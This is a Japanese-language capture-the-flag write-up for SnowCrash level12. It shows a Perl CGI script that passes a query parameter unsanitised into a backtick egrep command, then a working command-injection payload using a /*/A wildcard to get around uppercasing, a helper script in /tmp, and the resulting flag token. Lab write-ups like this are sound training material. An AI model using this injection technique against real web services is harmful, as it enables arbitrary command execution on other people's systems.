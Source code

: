 ```sh
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//; # 空白以降の文字列削除
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
```

`curl 'http://localhost:4646/?x=` にリクエストを送信し`@output = egrep "^$xx" /tmp/xd 2>&1;`でインジェクションできる。
ただし、ファイル作成できるディレクトリが`/tmp/`のみで`$xx =~ tr/a-z/A-Z/;` でアッパーケースになり、`/tmp/`のファイルをそのまま読み込ませることはできない。
この問題は、ワイルドカード`/*/`で解決できる。

### インジェクション用のスクリプト作成
```sh
level12@SnowCrash:~$ echo '#!/bin/bash' > /tmp/A
level12@SnowCrash:~$ echo 'getflag > /tmp/a' >> /tmp/A
level12@SnowCrash:~$ chmod +x /tmp/A
```

### 実行
```sh
level12@SnowCrash:~$ curl 'http://localhost:4646/?x=$(/*/A)'
..level12@SnowCrash:~$cat /tmp/a
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```